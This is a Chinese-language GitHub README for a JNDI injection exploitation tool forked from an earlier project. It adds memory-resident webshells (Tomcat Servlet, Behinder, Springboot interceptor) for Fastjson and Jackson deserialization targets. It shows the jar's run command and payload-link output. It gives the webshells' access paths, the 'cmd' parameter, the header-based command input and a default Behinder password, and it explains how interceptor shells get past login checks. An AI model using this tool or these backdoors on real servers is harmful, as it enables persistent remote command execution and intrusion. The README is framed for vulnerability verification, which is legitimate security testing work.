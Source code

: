 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

最开始做项目的初衷是因为，遇到一些场景只能用RMI注入，无法使用LDAP注入，但是找了一段的时间之后发现Github中并没有很合心意的RMI注入工具，于是原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit

冰蝎内存🐴默认密码:elysium

## 更新功能

### 内存马注入

直接运行jar包，可以看到添加了Tomcat Memshell、Behinder两种内存马（还在更新中）

```shell
$ java -jar JNDI-Injection-Memshell-1.0-SNAPSHOT-all.jar          
[ADDRESS] >> 127.0.0.1
[COMMAND] >> open -a Calculator
----------------------------JNDI Links----------------------------
Target environment(Behinder Servlet Memshell):
rmi://127.0.0.1:1099/j3zha7
ldap://127.0.0.1:1389/j3zha7
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/qrxwmq
ldap://127.0.0.1:1389/qrxwmq
Target environment(Springboot Interceptor Memshell):
rmi://127.0.0.1:1099/i7ukcl
ldap://127.0.0.1:1389/i7ukcl
Target environment(Springboot Interceptor Behinder Memshell):
rmi://127.0.0.1:1099/wxzn7u
ldap://127.0.0.1:1389/wxzn7u
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/hrrq2s
ldap://127.0.0.1:1389/hrrq2s
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://127.0.0.1:1099/djodn7
Target environment(Tomcat Servlet Memshell):
rmi://127.0.0.1:1099/xmw45d
ldap://127.0.0.1:1389/xmw45d

----------------------------Server Log----------------------------
2023-08-28 15:04:30 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-08-28 15:04:30 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-08-28 15:04:30 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

- Tomcat Servlet Memshell

  - 命令执行Servlet内存马：路径/shell，参数cmd

   ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/1.jpg)

- Behinder Servlet Memshell

  - 冰蝎Servlet内存马：路径/shell，密码:elysium

  ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/2.jpg)

- Springboot interceptor Memshell
  - springboot的拦截器内存马，在request header中的command为入参执行命令

	![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/3.jpg)
	
- Springboot interceptor Behinder Memshell:
  
	- springboot拦截器冰蝎内存马，在request header中的shell参数中跟上Behinder，输入密码即可连接
	
	​	![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/4.jpg)



## Tips:

Q:为什么有了Servlet/Controller内存马还是需要Interceptor内存马呢？

A:如果服务端存在拦截器，指定如果未登录的状态除了/login接口其他都不执行，访问就会跳转回/login接口的话。这个controller的内存马不就访问不到了吗？访问不到就形同虚设了。所以controller的内存马并不能作为一种通用的内存马进行注入，于是就需要注入interceptor内存马了。

## 待实现

- 添加filter、~~Interceptor~~类型的内存马
- 融合groovy的bypass利用链到项目中。
- 更新weblogic以及其他中间件的内存马注入环境
- 增加注入哥斯拉内存马的模块
- 加入websocket内存马



## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=MUYU212/JNDI-Injection-Memshell&type=Date)](https://star-history.com/#MUYU212/JNDI-Injection-Memshell&Date)
